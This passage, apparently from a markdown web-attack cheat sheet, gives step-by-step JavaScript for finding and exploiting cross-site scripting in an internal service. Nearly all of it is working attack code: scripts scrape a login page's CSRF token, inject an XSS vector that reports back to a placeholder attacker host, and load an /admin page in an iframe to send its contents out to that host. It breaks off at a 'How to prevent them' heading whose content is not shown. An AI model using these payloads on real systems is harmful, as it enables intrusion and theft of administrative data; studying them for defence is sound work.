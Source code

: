 			q.shift()(wait);
		  }
		  }, wait);
		}
		</script>
		```
		
		2. Then you will be able to go for XSS fetching, using information previously retrieve

		```javascript
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  

		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><img src='+collaboratorURL+'?isXSS=1>');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");  
		</script>
		```

		3. From the previous step, you will locate a potential XSS, if you find one it would be display in your website logs using `isXSS=1`. In this part we will go for the XSS exploit and retrieve the web page content.

		```javascript
		<script>  
		function xss(url, text, vector) {  
		 location = url + '/login?time='+Date.now()+'&username='+encodeURIComponent(vector)+'&password=test&csrf='+text.match(/csrf" value="(\[^"\]+)"/)\[1\];  
		}  
		function fetchUrl(url, collaboratorURL){  
		 fetch(url).then(r=>r.text().then(text=>  
		 {  
		 xss(url, text, '"><iframe src=/admin onload="new Image().src=\\''+collaboratorURL+'?code=\\'+encodeURIComponent(this.contentWindow.document.body.innerHTML)">');  
		 }  
		 ))  
		}  

		fetchUrl("http://IP_FOUND", "YOURWEBSITE");    
		</script>
		```
		
		4. Then you are free to do whatever you want, iframe injection, CSRF, ...
	
		
#### How to prevent them 
